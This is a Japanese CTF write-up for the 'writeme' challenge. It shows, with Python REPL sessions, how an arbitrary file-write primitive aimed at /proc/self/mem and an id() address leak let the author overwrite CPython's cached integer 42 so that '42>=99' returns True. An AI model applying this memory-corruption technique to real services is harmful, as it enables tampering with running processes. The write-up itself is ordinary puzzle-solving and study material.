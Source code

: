 # writeme - Writeup

ソースを読むと存在するファイルに文字列`Hack`を挿入できる。  
writemeなるファイルがあるが、文字列挿入だけなのでどうにもならない。  
Chanceと称するevalがあるが`42=99`などできるわけもない。  
任意のファイルに文字列挿入ができるので、`/proc/self/mem`を書き換え可能であることに気づく。  
書き換えによって`42>=99`をTrueとすることを目指す。  
方針として、場所は不明だがには数値42もしくは99のオブジェクトの中身を破壊してやることを考える。  
どうやらCPythonは32バイトずつ数値オブジェクトを順にキャッシュしているらしい。  
Chanceの5文字のevalで行えることはidくらいしかない(計算機にはなるよ)。  
id(1)により無事に数値1のアドレスがリークできたので、id(1)+41*32で書き換える先のid(42)を求める。  
この32バイトは以下のように求めることができる(python3)。  
```python
>>> int(id(2))-int(id(1))
32
>>> (int(id(42))-int(id(1)))/41
32.0
```
ちなみに大きいものはそうでもない。  
```python
>>> (int(id(124))-int(id(123)))
32
>>> (int(id(1235))-int(id(1234)))
-67072224
```
seekで先ほどリークしたアドレス分スキップすることで数値42を改造できる。  
```python
>>> fd = open("/proc/self/mem", "rb")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00+\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x00\x00\x00'
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00-\x00\x00\x00\x00\x00\x00\x00'
>>> ord("*")
42
>>> ord("+")
43
>>> ord(",")
44
>>> ord("-")
45
```
どうやら25バイト目に数値本体が入っているようだ。  
ここを破壊してやれば`42>=99`をTrueにすることができるかもしれない。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"A")
1
>>> fd.flush()
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00A\x00\x00\x00\x00\x00\x00\x00'
>>> 42
65
>>> chr(65)
'A'
```
+24seekすればよい。  
挿入される文字列が`Hack`であるため、99より大きくなる。  
```python
>>> fd = open("/proc/self/mem", "rb+")
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00*\x00\x00\x00\x00\x00\x00\x00'
>>> fd.seek(int(id(42))+24)
10915832
>>> fd.write(b"Hack")
4
>>> fd.seek(int(id(42)))
10915808
>>> fd.read(32)
b'\x05\x00\x00\x00\x00\x00\x00\x00\x80\xd1\x9c\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00Hack\x00\x00\x00\x00'
>>> fd.flush()
>>> 42
1801675080
>>> hex(1801675080)
'0x6b636148'
>>> hex(ord("H"))
'0x48'
>>> hex(ord("a"))
'0x61'
>>> hex(ord("c"))
'0x63'
>>> hex(ord("k"))
'0x6b'
>>> 42>=99
True
```
よって解法は以下の入力になる。  
```text
id(1)
/proc/self/mem
id(1)の結果 + 41*32 + 24
```
